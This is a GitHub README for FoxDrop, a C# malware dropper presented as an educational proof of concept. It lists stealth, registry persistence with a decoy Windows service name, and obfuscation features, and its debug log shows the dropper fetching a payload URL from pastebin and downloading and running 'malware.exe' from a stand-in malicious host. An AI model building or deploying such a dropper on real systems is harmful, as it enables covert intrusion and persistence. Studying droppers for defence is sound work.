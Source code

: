 <center> <img src="https://cdn.lypd0.com/FoxDrop/logo.png"> </center>


<h1 align="center">FoxDrop - A Malware Dropper Proof-of-Concept</h1>
<p align="center">
  <a href="#"><img alt="forksBDG" src="https://img.shields.io/github/forks/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="starsBDG" src="https://img.shields.io/github/stars/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="licenseBDG" src="https://img.shields.io/github/license/lypd0/FoxDrop?style=for-the-badge"></a>
  <a href="#"><img alt="languageBDG" src="https://img.shields.io/badge/LANGUAGE-CSHARP-green?style=for-the-badge"></a>
<h3 align="center">Usage on unauthorized systems is strictly forbidden</h3>

## Overview
FoxDrop is an educational proof-of-concept (PoC) malware dropper designed to illustrate the functionality of a dropper and its potential impact on a system. This project aims to provide insights into malware behavior, showcasing how droppers can silently infiltrate systems, execute payloads, and maintain persistence.

## Features
FoxDrop offers a range of features, including but not limited to:

- **Stealthy Execution**: FoxDrop operates discreetly, avoiding detection by traditional security measures.
- **Persistence**: It ensures its presence on the system by adding a run policy for execution on system reboot.
- **Dynamic Payload Retrieval**: FoxDrop fetches payloads from specified URLs, allowing for flexible and adaptable malware behavior.
- **Registry Manipulation**: To evade detection, FoxDrop creates decoy registry keys, camouflaging its activities.
- **Payload Integrity Checks**: FoxDrop hashes downloaded payloads and compares them to stored hashes to prevent re-execution.
- **Obfuscation Techniques**: FoxDrop supports Base64 decoding, adding an additional layer of obfuscation to its operation.

## Usage
Using FoxDrop for educational purposes involves several steps:
1. **Compilation**: Compile the provided source code using a C# compiler to generate the executable binary.
2. **Execution**: Execute the compiled binary on a target system to observe its behavior.
3. **Customization**: Customize the payload download URLs and other variables in the source code for experimentation.

## Disclaimer
FoxDrop is intended for educational purposes only. The author does not endorse or encourage any illegal or malicious use of this software. Any misuse or unethical use of FoxDrop is strictly prohibited.

## Author
FoxDrop is developed by Luigi Fiore, also known as lypd0.

## License
This project is licensed under the MIT License, allowing for exploration, modification, and distribution. Refer to the [LICENSE](LICENSE) file for detailed licensing terms.

## Troubleshooting and Debugging
FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior. These features provide insights into FoxDrop's configuration and highlight any potential issues that may affect its operation.

FoxDrop includes built-in troubleshooting and debugging features to aid in understanding its behavior:
```cpp
[╒═■] Build Information: 
[├] Assembly Info: FoxDrop, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null
[├] Execution Path: C:\Path\To\FoxDrop.exe
[└] Polymorphic Seed: 8bc8f9bfb6b6a42640a37dcf9aa9a22b

[*] Performing Checks... 
· Polymorphism Disabled, Checking static name ... OK.
· Checking Delay ... OK.

Press ENTER to exit.
```

## Debug Log
During execution, FoxDrop logs debug information to provide visibility into its operations. This debug log offers detailed information about FoxDrop's actions, facilitating analysis and comprehension of its behavior.

```cpp
[*] Waiting 300000 ms ...
[*] First execution on system: TRUE.
[*] Folder "92cbea44" created in the Registry.
[*] Created BEA key.
[*] Created "ShortcutName" key with value "Windows Audio Device Graph Isolation".
[*] Created "Path" key with value "C:\Windows\System32\audiodg.exe".
[*] Reading content from "https://pastebin.com/raw/b4SYNyAT".
[*] Loaded following data: "https://malicious.website/malware.exe;C:\Users\User\Downloads\malware.exe".
[*] Downloading & executing payload from "https://malicious.website/malware.exe"
[*] Downloaded payload to C:\Users\User\Downloads\malware.exe
[*] Payload started from C:\Users\User\Downloads\malware.exe
[*] Payload hash (md5) added to list to prevent re-execution.
```

## Conclusion
FoxDrop serves as a valuable educational tool for understanding malware droppers and their implications. By exploring its features and behavior, users can gain insights into malware tactics and enhance their cybersecurity knowledge and defenses.
